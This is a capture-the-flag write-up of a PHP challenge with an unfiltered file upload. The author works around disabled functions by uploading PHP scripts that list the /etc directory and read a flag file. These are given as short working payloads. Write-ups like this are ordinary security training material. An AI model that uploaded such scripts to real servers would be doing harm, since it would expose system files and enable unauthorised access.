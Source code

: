 ### WTF php

Challenge was a classic file upload without file filter.
uploaded php file with phpinfo()

![Restricted file() and system()](img/disabled_func.png)

uploaded another php containing

```
<?php
$iterator=new DirectoryIterator('/../../../../../etc/');
while ($iterator->valid()) {
    echo $iterator->current()->getFilename() . '</br>';
    $iterator->next();
}

?>

```
![outputed all files in etc directory](img/f1@g.png)

final php upload containing the flag contents

```
$file = file_get_contents('/../../../../etc/f1@g.txt');
echo $file;

```
![:)](img/flag.png)
